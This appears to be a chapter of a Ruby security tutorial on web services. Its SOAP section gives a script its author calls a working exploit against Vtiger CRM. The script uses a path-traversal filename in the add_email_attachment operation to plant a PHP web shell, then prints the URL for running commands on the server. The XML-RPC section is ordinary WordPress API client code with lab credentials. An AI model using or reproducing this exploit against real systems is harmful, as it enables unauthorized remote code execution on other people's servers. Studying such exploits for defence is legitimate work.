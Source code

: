 # Interacting with Web Services

### SOAP - WSDL
Generally speaking, dealing with SOAP means dealing with XMLs that which WSDL describes how to use that SOAP. Ruby has really elegant way to do so and let's to get our hand dirty with an exploit

```
gem install savon httpclient
```

This is a working exploit for Vtiger CRM SOAP from Auth-bypass to Shell upload 
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
# gem install savon httpclient
#
require 'savon'

if ARGV.size < 1
  puts "[+] ruby #{__FILE__} [WSDL URL]"
  exit 0
else
  url = ARGV[0]
end

shell_data, shell_name = "<?php system($_GET['cmd']); ?>", "shell-#{rand(100)}.php"

# Start client 
client = Savon::Client.new(wsdl: url)

# List all avialable operations 
puts "[*] List all available operations "
puts client.operations

puts "\n\n[*] Interact with :add_email_attachment operation"
response = client.call( :add_email_attachment, 
                        message: {
                                     emailid:  rand(100),
                                     filedata: [shell_data].pack("m0"),
                                     filename: "../../../../../../#{shell_name}",
                                     filesize: shell_data.size,
                                     filetype: "php",
                                     username: "KING", 
                                     sessionid: nil
                                }
                      )
puts "[+] PHP Shell on:  http://#{URI.parse(url).host}/vtigercrm/soap/#{shell_name}?cmd=id"

```



### XML-RPC
Ruby has a [standard library][2] called `xmlrpc` which take care of all xmlrpc stuff you can even create an xmlrpc server using it. Let's  to get  Some real word example 

Looking for really known application that support XMLRPC then of course Wordpress was the first attendee. 

So what do we want to do?
- Say hello to wordpress 
- List all available methods
- List all available users
- List all available post
- Create a new post!
- Retrieve our created post
- List all comments on our created post


```ruby
require 'xmlrpc/client'

opts =
    {
        host: '172.17.0.2',
        path: '/xmlrpc.php',
        port: 80,
        proxy_host: nil,
        proxy_port: nil,
        user: 'admin',
        password: '123123',
        use_ssl: false,
        timeout: 30
    }

server = XMLRPC::Client.new(
    opts[:host], opts[:path], opts[:port],
    opts[:proxy_host], opts[:proxy_port],
    opts[:user], opts[:password],
    opts[:use_ssl], opts[:timeout]
)

server = XMLRPC::Client.new3(opts)

# Say hello to wordpress
response = server.call("demo.sayHello")

# List all available methods
server.call('system.listMethods', 0)

# List all available users
server.call('wp.getAuthors', 0, opts[:user], opts[:password])

# List all available post
response = server.call('wp.getPosts', 0, opts[:user], opts[:password])

# Create a new post!
post =
    {
        "post_title"     => 'Rubyfu vs WP XMLRPC',
        "post_name"      => 'Rubyfu vs Wordpres XMLRPC',
        "post_content"   => 'This is Pragmatic Rubyfu Post. Thanks for reading',
        "post_author"    => 2,
        "post_status"    => 'publish',
        "comment_status" => 'open'
    }
response = server.call("wp.newPost", 0, opts[:user], opts[:password], post)

# Retrieve created post
response =  server.call('wp.getPosts', 0, opts[:user], opts[:password], {"post_type" => "post", "post_status" => "published", "number" => "2", "offset" => "2"})

# List all comments on a specific post
response =  server.call('wp.getComments', 0, opts[:user], opts[:password], {"post_id" => 4})

```

Results 

```
```

and here is the new post
![](webfu__xmlrpc1.png)









<br><br><br>
---
[1]:
[2]: http://ruby-doc.org/stdlib-2.2.3/libdoc/xmlrpc/rdoc/XMLRPC/Client.html
